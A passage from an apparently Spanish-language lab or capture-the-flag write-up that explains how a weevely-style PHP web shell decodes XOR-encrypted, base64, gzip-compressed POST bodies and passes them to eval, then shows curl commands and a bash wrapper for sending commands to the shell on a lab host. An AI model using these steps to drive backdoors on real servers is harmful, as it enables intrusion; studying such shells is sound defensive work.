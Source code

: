 ```php
}
?>
```

### Explicación

1. Define algunas variables, incluyendo una clave de cifrado ($clave), claves de inicio y final ($claveInicio y $claveFinal), y una cadena de prefijo ($prefijo).
2. Define una función llamada "descifrar", que toma un texto y una clave como argumentos y realiza una operación XOR entre los caracteres del texto y los caracteres de la clave para descifrar el texto.
3. Verifica si ciertos datos en el cuerpo de la solicitud coinciden con la clave utilizando una expresión regular. Esto se hace llamando a preg_match con el contenido de la solicitud (php://input) y las claves de inicio y final.
4. Si la expresión regular coincide (preg_match devuelve 1), realiza las siguientes acciones en un búfer de salida (@ob_start()):
    - Descodifica en base64 el contenido coincidente.
    - Descifra el contenido decodificado utilizando la función "descifrar".
    - Descomprime el contenido descifrado utilizando gzuncompress.
    - Almacena el resultado descomprimido en $resultadoDescifrado.
    - Limpia el búfer de salida (@ob_end_clean()).

Luego, vuelve a cifrar el resultado descomprimido utilizando gzcompress y lo codifica en base64 nuevamente utilizando base64_encode.

Finalmente, imprime una cadena que consta del prefijo, la clave de inicio, el resultado codificado y la clave final.

## Explotación

Para explotar este script, tengo que conseguir controlar lo que llega a la función **eval()**. Para ello hago lo siguiente:

### Expresión regular

La información pasa al script a través de "php://input" que viene siendo el cuerpo de una petición **POST**.

Como se puede ver en el siguiente comando, tiene que comenzar por $claveInicio, incluir algún texto y terminar con $claveFinal.

```
h3rshel@kali:~/Desktop$ curl -X POST 192.168.1.120/weevely.php7 -d "b6e7a529b6c2[RANDOM TEXT]d598a771749b"
afnqDsRcBpVmU71yb6e7a529b6c2S/hnZjBkNWI=d598a771749b
```

Hago un script que añada el prefijo y el sufijo al texto que se pase como argumento.

```
h3rshel@kali:~/Desktop$ cat send_script.sh 
#!/bin/bash
curl -X POST http://192.168.1.120/weevely.php7 -d "b6e7a529b6c2$1d598a771749b"
```
